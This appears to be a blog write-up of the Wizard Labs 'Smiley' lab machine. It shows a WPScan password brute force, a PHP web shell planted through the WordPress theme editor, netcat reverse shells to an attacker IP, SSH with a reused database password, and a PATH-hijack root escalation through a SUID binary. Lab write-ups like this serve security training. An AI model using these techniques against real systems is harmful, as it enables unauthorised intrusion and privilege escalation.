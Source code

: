 ```yaml
---
layout: post
title: Wizard Labs - Smiley
date: 2019-04-26 12:22
author: rowbot
comments: true
categories: [SUID, Wizard Labs, Wordpress]
---
```

<!-- wp:image {"id":814,"align":"center"} -->
<div class="wp-block-image"><figure class="aligncenter"><img src="http://offsecnewbie.com/wp-content/uploads/2019/04/image-37.png" alt="" class="wp-image-814"/></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Even though the difficulty of this machine was 3/10 it took me quite a while to complete it. </p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":815,"align":"center"} -->
<div class="wp-block-image"><figure class="aligncenter"><img src="http://offsecnewbie.com/wp-content/uploads/2019/04/image-38.png" alt="" class="wp-image-815"/></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>nmap scan reveals a wordpress site running on port 80.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":816,"align":"center"} -->
<div class="wp-block-image"><figure class="aligncenter"><img src="http://offsecnewbie.com/wp-content/uploads/2019/04/image-39.png" alt="" class="wp-image-816"/></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>After a lot of directory searching turned up with nothing. I only had a username - smiley. </p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>I forgot about the brute force method. You can use WPScan to brute force</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">⚡  ~/Desktop/smiley <br>cat username  <br>smiley <br>wpscan --url http://10.1.1.42/ -P /usr/share/seclists/Passwords/darkweb2017-top10000.txt -U username  </pre>
<!-- /wp:preformatted -->

<!-- wp:paragraph -->
<p>Password found - music</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":818,"align":"center"} -->
<div class="wp-block-image"><figure class="aligncenter"><img src="http://offsecnewbie.com/wp-content/uploads/2019/04/image-40.png" alt="" class="wp-image-818"/></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>That took me the guts of 5 hours to get that far. I've made a mental note not to forget about brute forcing when nothing else turns up.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":819,"align":"center"} -->
<div class="wp-block-image"><figure class="aligncenter"><img src="http://offsecnewbie.com/wp-content/uploads/2019/04/image-41.png" alt="" class="wp-image-819"/></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>I went to Plugins and Editor and added php code to index.php to see if I can get command execution </p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":820,"align":"center"} -->
<div class="wp-block-image"><figure class="aligncenter"><img src="https://i1.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-42.png?fit=680%2C104" alt="" class="wp-image-820"/></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p> &lt;?php echo shell_exec($_GET['cmd']); ?&gt; </p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>I activated the Hello Dolly plugin and refreshed the index page. I always view the source when I do this as it makes the output readable. </p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":821,"align":"center"} -->
<div class="wp-block-image"><figure class="aligncenter"><img src="http://offsecnewbie.com/wp-content/uploads/2019/04/image-43.png" alt="" class="wp-image-821"/></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Otherwise it will look like this</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":822,"align":"center"} -->
<div class="wp-block-image"><figure class="aligncenter"><img src="http://offsecnewbie.com/wp-content/uploads/2019/04/image-44.png" alt="" class="wp-image-822"/></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>So I can get command execution. Now to get a nc reverse shell.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":823,"align":"center"} -->
<div class="wp-block-image"><figure class="aligncenter"><img src="http://offsecnewbie.com/wp-content/uploads/2019/04/image-45.png" alt="" class="wp-image-823"/></figure></div>
<!-- /wp:image -->

<!-- wp:image {"id":824,"align":"center"} -->
<div class="wp-block-image"><figure class="aligncenter"><img src="http://offsecnewbie.com/wp-content/uploads/2019/04/image-46.png" alt="" class="wp-image-824"/></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>So I'm in as www-data but obviously can't view user.txt as I'm not user mike</p>
<!-- /wp:paragraph -->

<!-- wp:html -->
<pre>cd /home
$ ls
ls
mike
$ cd mike
cd mike
/bin/sh: 5: cd: can't cd to mike
</pre>
<!-- /wp:html -->

<!-- wp:paragraph -->
<p>As the server is running wordpress I knew there would be a password stored in wp-config.php</p>
<!-- /wp:paragraph -->

<!-- wp:html -->
<pre>// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wpdatabase');

/** MySQL database username */
define('DB_USER', 'wpuser');

/** MySQL database password */
define('DB_PASSWORD', 'Il0veW0rdpress');

/** MySQL hostname */
define('DB_HOST', 'localhost');
</pre>
<!-- /wp:html -->

<!-- wp:paragraph -->
<p>I'll try to ssh using it and user mike and Il0veW0rdpress as the password  </p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":826,"align":"center"} -->
<div class="wp-block-image"><figure class="aligncenter"><img src="http://offsecnewbie.com/wp-content/uploads/2019/04/image-47.png" alt="" class="wp-image-826"/></figure></div>
<!-- /wp:image -->

<!-- wp:html -->
<pre>mike@smiley:~$ cat user.txt 
b075f6e221bbe611fafa9b7ae3688379
mike@smiley:~$ 
</pre>
<!-- /wp:html -->

<!-- wp:paragraph -->
<p>I noticed that there is a file with SUID bit set in mike's home directory</p>
<!-- /wp:paragraph -->

<!-- wp:html -->
<pre>mike@smiley:~$ ls -la listwww 
-rwsr-xr-x 1 root root 7332 Dec 27 06:03 listwww
mike@smiley:~$ 
</pre>
<!-- /wp:html -->

<!-- wp:paragraph -->
<p>When I run it it lists the contents of /var/www/html</p>
<!-- /wp:paragraph -->

<!-- wp:html -->
<pre>mike@smiley:~$ ./listwww 
index.php    readme.html  suid.c	   wp-admin	       wp-comments-post.php  wp-config.php  wp-cron.php  wp-links-opml.php  wp-login.php  wp-settings.php  wp-trackback.php
license.txt  suid	  wp-activate.php  wp-blog-header.php  wp-config-sample.php  wp-content     wp-includes  wp-load.php	    wp-mail.php   wp-signup.php    xmlrpc.php
listing /var/www/html mike@smiley:~$ 
</pre>
<!-- /wp:html -->

<!-- wp:paragraph -->
<p>Doing strings listwww reveals </p>
<!-- /wp:paragraph -->

<!-- wp:html -->
<pre>UWVS
[^_]
listing /var/www/html 
sleep 3
/bin/ls /var/www/html
;*2$"
GCC: (Debian 7.3.0-11) 7.3.0
</pre>
<!-- /wp:html -->

<!-- wp:paragraph -->
<p>I opened the file in Ghidra and it decompiled the binary to reveal in main</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":833,"align":"center"} -->
<div class="wp-block-image"><figure class="aligncenter"><img src="http://offsecnewbie.com/wp-content/uploads/2019/04/image-48.png" alt="" class="wp-image-833"/></figure></div>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>It looks like it says "listing /var/www/html" then sleeps for 3 seconds then does an ls on that directory. So I need to get this binary to run code which will give me root shell. Looking at the strings again I knew that as the ls command has a fully qualified path /bin/ls I could not take advantage of this. The sleep command however wasn't fully qualified - it had just sleep. If it was it would have read /usr/bin/sleep.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>So in order to run this I needed to change the PATH to /home/mike and put a sleep script in there which the listwww would hopefully run.</p>
<!-- /wp:paragraph -->

<!-- wp:html -->
<pre>mike@smiley:~$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
mike@smiley:~$ 
</pre>
<!-- /wp:html -->

<!-- wp:html -->
<pre>mike@smiley:~$ export PATH=/home/mike/:$PATH
mike@smiley:~$ echo $PATH
/home/mike/:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
mike@smiley:~$ 
</pre>
<!-- /wp:html -->

<!-- wp:paragraph -->
<p>I added a nc reverse shell to sleep. Ran the listwww binary again..</p>
<!-- /wp:paragraph -->

<!-- wp:html -->
<pre>mike@smiley:~$ cat sleep 
nc -e /bin/sh 10.253.0.255 443
mike@smiley:~$ 
</pre>
<!-- /wp:html -->

<!-- wp:paragraph -->
<p>and got a connection back! </p>
<!-- /wp:paragraph -->

<!-- wp:html -->
<pre><span style="background-color:#2E3436"> </span><span style="background-color:#2E3436"><font color="#C4A000">⚡ </font></span><span style="background-color:#3465A4"><font color="#2E3436"> ~/Desktop/smiley </font></span><font color="#3465A4"></font> <font color="#4E9A06">nc</font> -lnvp 443
listening on [any] 443 ...
connect to [10.253.0.255] from (UNKNOWN) [10.1.1.42] 40548
id
uid=0(root) gid=1000(mike) groups=1000(mike)
cat /root/root.txt
a16c33fc59fe0a3deecf6212b60f2b9b
</pre>
<!-- /wp:html -->
